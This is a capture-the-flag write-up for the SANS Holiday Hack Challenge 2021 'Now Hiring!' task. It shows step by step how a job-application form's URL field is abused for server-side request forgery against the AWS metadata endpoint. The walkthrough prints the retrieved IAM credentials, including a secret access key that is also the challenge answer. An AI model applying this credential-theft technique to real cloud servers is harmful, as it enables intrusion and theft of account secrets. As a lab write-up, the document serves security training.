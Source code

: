 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 10. Now Hiring!
### 10.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)

### 10.2. Hints
**AWS IMDS Documentation** - *Noxious O. D'or*: “The AWS documentation for IMDS is interesting reading.”

#### 10.3. Solution
The application form allows the insertion of an URL under the name of “URL to your public NLBI report”:  
![Apply](imgs/00_Apply.png)

I gave the URL of a computer I own and observed the application was fetching the URL specified without much control:
```bash
root@debian:~/hiring# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 …
34.132.188.111 - - [06/Jan/2022 08:44:41] "GET / HTTP/1.0" 200 -
34.132.188.111 - - [06/Jan/2022 08:44:56] code 404, message File not found
34.132.188.111 - - [06/Jan/2022 08:44:56] "GET /non-existent HTTP/1.0" 404 -
34.132.188.111 - - [06/Jan/2022 08:46:56] "GET /test_test_test HTTP/1.0" 200 -
```

When the file does not exist (`non-existent`), the application is just accepted:  
![01_non-existent.png](imgs/01_non-existent.png)

In case the file exist (`test_test_test`), the application shows more data:
![02_existent.png](imgs/02_existent.png)

Inspecting the broken image link, it is possible to recognize it is returning the content of the test page:
```bash
root@debian:~/hiring# curl "https://apply.jackfrosttower.com/images/asd.jpg"
Hi, I'm a test file!
```

At that point it was pretty straightforward to go ahead and test with AWS URLs considering the side challenge.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials I retrieved the `jf-deploy-role` user.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role:
```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

As the challenge required the `SecretAccessKey`, it is `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`.

#### 10.4. Thank you for the proxy
![meme](imgs/03_meme.png) https://knowyourmeme.com/memes/i-too-like-to-live-dangerously

---
## [2. Where in the World is Caramel Santiaigo?](imgs/README.md)
## [2.1. Side Challenge - Exif Metadata](imgs/README.md)
## [3. Thaw Frost Tower's Entrance](imgs/README.md)
## [3.1. Side Challenge - Grepping for Gold](imgs/README.md)
## [4. Slot Machine Investigation](imgs/README.md)
## [4.1. Side Challenge - Logic Munchers](imgs/README.md)
## [5. Strange USB Device](imgs/README.md)
## [5.1. Side Challenge - IPv6 Sandbox](imgs/README.md)
## [6. Shellcode Primer](imgs/README.md)
## [6.1. Side Challenge - Holiday Hero](imgs/README.md)
## [7. Printer Exploitation](imgs/README.md)
## [7.0. Description](imgs/README.md)
## [8. Kerberoasting on an Open Fire](imgs/README.md)
## [8.1. Side Challenge - HoHo … No](imgs/README.md)
## [9. Splunk!](imgs/README.md)
## [9.1. Side Challenge - Yara Analysis](imgs/README.md)
## [10. Now Hiring!](imgs/README.md)
## [10.1. Side Challenge - IMDS Exploration](imgs/README.md)
## [11. Customer Complaint Analysis](imgs/README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](imgs/README.md)
## [12. Frost Tower Website Checkup](imgs/README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](imgs/README.md)
## [13. FPGA Programming](imgs/README.md)
## [13.1. Side Challenge - Frostavator](imgs/README.md)
## [14. Bonus! Blue Log4Jack](imgs/README.md)
## [15. Bonus! Red Log4Jack](imgs/README.md)
---
## [0. windovo\\thedead> whoami](imgs/../README.md)
## [1. KringleCon Orientation](imgs/01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](imgs/../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](imgs/../README.md#17-narrative)
## [18. Conclusions](imgs/../README.md#18-conclusions)